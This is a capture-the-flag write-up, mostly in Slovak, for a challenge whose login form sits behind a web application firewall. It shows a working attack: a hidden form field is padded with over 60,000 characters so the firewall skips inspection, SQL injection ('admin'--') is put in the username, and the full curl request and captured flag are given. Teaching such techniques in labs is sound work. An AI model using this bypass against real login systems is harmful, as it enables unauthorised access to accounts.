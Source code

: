 # Zadanie

Hi, emergency troubleshooter,

we are preparing a new interface for the single sign-on system, which, on the recommendation of external pentesters, is now also protected by a WAF. Test the system to ensure it is secure.

Stay grounded!

- [http://login.powergrid.tcc:8080](http://login.powergrid.tcc:8080/)

**Hints**

- A WAF was probably just added in front of the old system.

## Riešenie

Pri pokuse o navštívenie stránky som dostal presmerovanie na `http://intranet.powergrid.tcc:8080/`. Pri pingovaní som zistil, že leží na rovnakej IP ako login, takže len pridám na koniec súboru `/etc/hosts` riadok

`10.99.25.33 intranet.powergrid.tcc`.

![sso1-png](sso1.png)

Formulár však obsahuje aj hidden atribút

```html
<form action="index.php" method="post">
    <input type="text" name="login" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <input type="hidden" name="padding" value="">
    <button type="submit">Sign In</button>
</form>
```

Ako prvé som skúsil login `admin'--`  a heslo `neviem` bez použitia padding parametra, ale dostal som rovno `Forbidden`. A tak som urobil som takú prasačinu, že som zmenil `type="hidden"` na `type="text"`, do políčka `hidden` som vložil vyše 60000 znakov `A`, do username som vložil `admin'--` do hesla `neviem` a prešlo 😃.

![sso1a.png](sso1a.png)

Klikol som na `SIgn In` a `et voilá`.

![sso2.png](sso2.png)

Tu je celý, ale trunkated, request.. 

```
curl ^"http://intranet.powergrid.tcc:8080/index.php^" ^
  -H ^"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7^" ^
  -H ^"Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6^" ^
  -H ^"Cache-Control: max-age=0^" ^
  -H ^"Connection: keep-alive^" ^
  -H ^"Content-Type: application/x-www-form-urlencoded^" ^
  -H ^"Origin: http://intranet.powergrid.tcc:8080^" ^
  -H ^"Referer: http://intranet.powergrid.tcc:8080/^" ^
  -H ^"Upgrade-Insecure-Requests: 1^" ^
  -H ^"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36^" ^
  --data-raw ^"login=admin^%^27--^&password=neviem^&padding=AAAA...AAAA^" ^
  --insecure
```

Tých znakov som tam mal niečo cez 60000.. stačí poslať, napríklad cez postmana a vybavené.

## Vlajka

    FLAG{rxRk-Dj3A-bGc0-cyHc}
